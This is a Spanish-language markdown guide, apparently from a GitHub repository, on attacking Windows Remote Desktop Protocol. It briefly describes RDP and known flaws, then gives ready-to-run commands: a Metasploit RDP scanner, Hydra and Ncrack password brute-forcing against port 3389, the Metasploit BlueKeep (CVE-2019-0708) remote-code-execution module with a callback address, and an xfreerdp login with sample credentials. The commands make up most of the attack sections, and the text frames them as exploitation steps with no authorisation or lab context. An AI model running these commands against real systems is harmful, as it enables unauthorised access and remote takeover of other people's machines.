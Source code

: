 # Explotación de RDP (Remote Desktop Protocol)

## 1. ¿Qué es RDP y a qué afecta?

- **Remote Desktop Protocol (RDP)** es un protocolo propietario de Microsoft que permite el acceso remoto a escritorios y servidores Windows.
- Utiliza por defecto el puerto **TCP 3389**.
- Si no está bien configurado, puede ser vulnerable a:
  - Ataques de fuerza bruta.
  - Vulnerabilidades de ejecución remota.
  - Secuestro de sesión o man-in-the-middle.
  - Denegación de servicio (DoS).

RDP afecta principalmente a:
- Servidores Windows expuestos a Internet.
- Estaciones de trabajo con RDP habilitado.
- Entornos de escritorio remoto en la nube (VDI).

---

## 2. Cómo identificar un servicio RDP expuesto

### Escaneo básico con `scanner/rdp/rdp_scanner`

```
msfconsole
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS <IP_OBJETIVO>
set THREADS 10
set RPORT 3389
run
```
## 3. Vulnerabilidades conocidas en RDP

- **CVE-2019-0708 (BlueKeep)**
  - Ejecución remota sin autenticación.
  - Afecta a Windows XP, 7, Server 2003 y 2008 sin parches.
  - Se explota enviando paquetes RDP malformados.

- **CVE-2020-0609 y CVE-2020-0610**
  - Vulnerabilidades en la puerta de enlace RDP (RD Gateway).

- **Fuerza bruta**
  - Probar combinaciones de usuario y contraseña con herramientas automáticas.

---

## 4. Cómo explotar RDP

### 4.1 Ataque de fuerza bruta

Con Hydra:
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s <Port>
```

Con Ncrack:
```
ncrack -u <USUARIO> -P <DICCIONARIO> rdp://<IP_OBJETIVO>
```

### 4.2 Explotar BlueKeep (CVE-2019-0708)

En Metasploit:
```
msfconsole
```

Luego:
```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <IP_OBJETIVO>
set RPORT 3389
set LHOST <TU_IP>
run
```

### 4.3 Acceso remoto con cliente RDP (xfreerdp)

Si ya tienes las credenciales y sólo quieres conectarte remotamente a la máquina Windows, puedes usar **xfreerdp** desde Linux:
```
xfreerdp /u:<USUARIO> /p:<CONTRASEÑA> /v:<IP_OBJETIVO>
````

Ejemplo completo:
```
xfreerdp /u:administrador /p:contraseña123 /v:192.168.1.1
```


